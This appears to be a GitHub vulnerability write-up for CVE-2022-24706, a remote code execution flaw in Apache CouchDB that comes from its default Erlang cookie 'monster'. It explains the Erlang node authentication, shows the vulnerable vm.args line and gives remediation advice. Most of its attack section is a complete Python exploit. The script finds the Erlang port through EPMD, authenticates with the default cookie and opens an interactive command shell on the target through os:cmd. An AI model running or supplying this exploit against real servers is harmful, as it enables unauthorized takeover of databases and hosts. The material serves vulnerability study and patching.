

# CVE-2022-24706 CWE-1188 Apache CouchDB RCE

## Vulnerability Background
- **Apache CouchDB**: A NoSQL database developed by Erlang, an open-source distributed NoSQL JSON document database that supports flexible data replication, easy scalability, and provides robust data synchronization capabilities. Allowing data to flow seamlessly between different devices and servers is ideal for building elastic, scalable applications.
- **NoSQL (Not Only SQL)**: A type of database that generally refers to non-relational databases, as opposed to traditional relational databases (such as MySQL, PostgreSQL, etc.). It is suitable for application scenarios that require handling large volumes of data, high-concurrency access, and flexible data models, such as social media, real-time analytics, and large-scale data storage. Including MongoDB, Redis, Couchbase, and Apache CouchDB, among others.
- **Erlang**: A programming language. It is used to address concurrency, distribution, and fault tolerance issues, especially the high reliability requirements of the telecommunications sector.
- **Erlang Node**: A single instance running the Erlang Virtual Machine (Erlang VM, also known as the BEAM Virtual Machine). Each node is an independent distributed computing environment capable of running multiple lightweight processes called Erlang processes. Nodes can communicate with each other through networks, forming a distributed system.
- **EPMD (Erlang Port Mapper Daemon)**: A daemon in the Erlang distributed system, primarily responsible for helping Erlang nodes discover each other and establish distributed connections. EPMD acts as an intermediary service that allows Erlang nodes to find each other within the network and manage the communication ports between them.
- **Erlang node authentication mechanism**: Implemented based on a shared secret (authentication cookie). The authentication process is:
  1. Node Discovery: When an Erlang node wants to connect to another node, it first needs to discover the target node. This is usually achieved through EPMD (Erlang Port Mapper Daemon), which acts as an intermediary to help nodes find each other.
  2. Connection Request: Node A sends a connection request to Node B. This request contains the identification information of node A.
  3. Challenge Response Authentication: After receiving the connection request, node B generates a random challenge (a number) and sends it to node A.
  4. Calculate the response: After receiving the challenge, node A uses local cookies and challenge values to compute an MD5 hash value, and sends this value back to node B as a response.
  5. Verify the response: After receiving Node A's response, node B uses the same cookie and challenge value to calculate the MD5 cache value and compares it with the hash sent by node A.
  6. Authentication success or failure: If two hash values match, node B considers node A to be trustworthy. If authentication succeeds, node A can continue executing remote commands or perform other distributed operations. If the hash value does not match, authentication fails and the connection request is rejected.
- **Cluster Operations**: In Erlang, multiple nodes can connect to form a cluster, allowing them to share information and workloads. Cluster operations involve managing and maintaining connections and communications between these nodes.
- **Self-Reflection Operations**: Allows developers and system administrators to monitor and analyze system behavior and performance during runtime. The self-introspection function includes retrieving system information, monitoring system performance, tracking process and port activity, and analyzing memory usage.

## Vulnerability Mechanism
In the default installation configuration, CouchDB opens a random network port for cluster operations or runtime self-reflection, which is publicly posted to the network by a utility process called EPMD. EPMD itself listens on fixed ports (usually port 4369).

Before CouchDB wrappers, a default "cookie" value ("monster") was chosen for single nodes and cluster installations, which is used to verify any communication between Erlang nodes. If this default "cookie" value is not changed, attackers can exploit it to bypass authentication.

If CouchDB's random port or EPMD port is exposed on the public web, an unauthenticated attacker can bypass privilege verification by sending specially designed malicious data to specific CouchDB ports, thereby gaining administrator privileges and executing arbitrary code on the target server.

**Coucdb cannot run in single-node mode but requires cluster operations**

## Vulnerability Location
Locate the **apache-couchdb-2.1.0\rel\overlay\etc\vm.args** file, which is an important configuration file in CouchDB, containing a series of Erlang startup parameters for configuring Erlang Node behavior. In line **22**, the `cookie` shared by all nodes is set to `monster` by default.

```
# All nodes must share the same magic cookie for distributed Erlang to work.
# Comment out this line if you synchronized the cookies by other means (using
# the ~/.erlang.cookie file, for example).
-setcookie monster
```

## Remediation

Upgrade to Apache CouchDB 3.2.2 or later. CouchDB 3.2.2 refuses to start with the former default Erlang cookie value `monster`, and the official binary packages bind `epmd` and the Erlang distribution port to loopback addresses by default.

For existing installations, replace the default cookie with a long, unique secret on every node and restart the cluster in a controlled manner. Permit external access only to the CouchDB API port 5984; block TCP 4369 and the Erlang distribution port range at host and network firewalls unless cluster communication explicitly requires them. Restrict any required distribution traffic to the IP addresses of trusted cluster members.

## Affected Versions
CouchDB  <= 3.2.1

## Environment Setup
Start the Apache CouchDB 2.1.0 service using Docker. admin/password



## Vulnerability Reproduction
Execute the EXP file

```cmd
python CVE-2022-24706-EXP.py <target-ip> <target-port>
```

If 'Authentication successful' appears, it means there is a vulnerability and the authentication has been successfully passed. After obtaining the shell, enter the command you want to execute


## PoC Analysis
First, the target uses the 4369 port EPMD service to obtain the cluster communication port, i.e., 9100, then uses default cookies to control nodes to execute arbitrary commands.

```python
import socket
from hashlib import md5
import struct
import sys
import re
import time

TARGET = sys.argv[1]
EPMD_PORT = int(sys.argv[2]) # Default Erlang distributed port
COOKIE = "monster" # Default Erlang cookie for CouchDB 
ERLNAG_PORT = 0
EPM_NAME_CMD = b"\x00\x01\x6e" # Request for nodes list

# Some data:
NAME_MSG  = b"\x00\x15n\x00\x05\x00\x07\x49\x9cAAAAAA@AAAAAAA"
CHALLENGE_REPLY = b"\x00\x15r\x01\x02\x03\x04"
CTRL_DATA  = b"\x83h\x04a\x06gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03"
CTRL_DATA += b"\x00\x00\x00\x00\x00w\x00w\x03rex"

#Compile the user's input commands into a format understandable by Erlang nodes and build a complete payload
def compile_cmd(CMD):
    MSG  = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
    MSG += struct.pack(">H", len(CMD))
    MSG += bytes(CMD, 'ascii')
    MSG += b'jw\x04user'
    PAYLOAD = b'\x70' + CTRL_DATA + MSG
    PAYLOAD = struct.pack('!I', len(PAYLOAD)) + PAYLOAD
    return PAYLOAD

print("Remote Command Execution via Erlang Distribution Protocol.\n")

# Connect to EPMD:
try:
    epm_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    epm_socket.connect((TARGET, EPMD_PORT))
except socket.error as msg:
    print("Couldnt connect to EPMD: %s\n terminating program" % msg)
    sys.exit(1)
    
epm_socket.send(EPM_NAME_CMD) #Request the Erlang node
if epm_socket.recv(4) == b'\x00\x00\x11\x11': # The response was successful
    data = epm_socket.recv(1024) #Read node information
    data = data[0:len(data) - 1].decode('ascii')
    data = data.split("\n")
    if len(data) == 1:
        choise = 1
        print("Found " + data[0])
    else: #If there are multiple nodes, select one
        print("\nMore than one node found, choose which one to use:")
        line_number = 0
        for line in data:
            line_number += 1
            print(" %d) %s" %(line_number, line))
        choise = int(input("\n> "))
    #Use regular expressions to extract port numbers from the selected node information
    ERLNAG_PORT = int(re.search("\d+$",data[choise - 1])[0])
else:
    print("Node list request error, exiting")
    sys.exit(1)
epm_socket.close()

# Connect to Erlang port:
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, ERLNAG_PORT))
except socket.error as msg:
    print("Couldnt connect to Erlang server: %s\n terminating program" % msg)
    sys.exit(1)
   
s.send(NAME_MSG)       #Send name messages, handshakes, and data in the NAME_MSG to initialize the connection to the Erlang node
s.recv(5)       #Receive handshake responses
challenge = s.recv(1024)     # Receive challenge information
print(challenge)
challenge = struct.unpack(">I", challenge[9:13])[0]   #Analyze challenge values

#print("Extracted challenge: {}".format(challenge))

# Add Challenge Digest
CHALLENGE_REPLY += md5(bytes(COOKIE, "ascii")     #Calculate challenge responses
    + bytes(str(challenge), "ascii")).digest()
s.send(CHALLENGE_REPLY)
CHALLENGE_RESPONSE = s.recv(1024)      #Receive certified responses

if len(CHALLENGE_RESPONSE) == 0:
    print("Authentication failed, exiting")
    sys.exit(1)

print("Authentication successful")
print("Enter command (exit to exit):\n")

data_size = 0
while True:
    if data_size <= 0:
        CMD = input("> ")
        if not CMD:
            continue
        elif CMD == "exit":
            sys.exit(0)
        s.send(compile_cmd(CMD))
        data_size = struct.unpack(">I", s.recv(4))[0] # Get data size
        s.recv(45)              # Control message
        data_size -= 45         # Data size without control message
        time.sleep(0.1)
    elif data_size < 1024:        
        data = s.recv(data_size)
        #print("S---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data[3:].decode())
        data_size = 0
    else:        
        data = s.recv(1024)
        #print("L---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data[4:].decode())
        data_size -= 1024
```

## References
[Vulnerability Location](https://zgao.top/cve-2022-24706-apache-couchdb-默认erlang-cookie的rce漏洞分析/#漏洞简述)

[2.2. Cluster Settings — Apache CouchDB® 3.3 Documentation - CouchDB Database](https://couchdb-docs.apache.ac.cn/en/stable/setup/cluster.html)
